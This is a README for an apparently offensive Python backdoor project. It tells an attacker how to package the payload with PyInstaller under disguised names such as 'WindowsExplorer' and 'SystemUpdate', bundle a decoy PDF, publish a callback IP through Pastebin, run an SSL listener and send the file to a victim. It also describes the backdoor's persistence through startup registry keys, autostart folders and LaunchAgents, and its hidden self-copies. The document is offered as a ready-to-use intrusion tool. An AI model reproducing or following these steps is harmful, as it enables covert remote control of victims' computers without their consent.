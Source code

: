 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
```powershell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" --add-data "sample.pdf;." backdoor.py
```
  
#### For MacOS :    
```zsh
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
```

#### For Linux :
```shell
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
```shell
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.
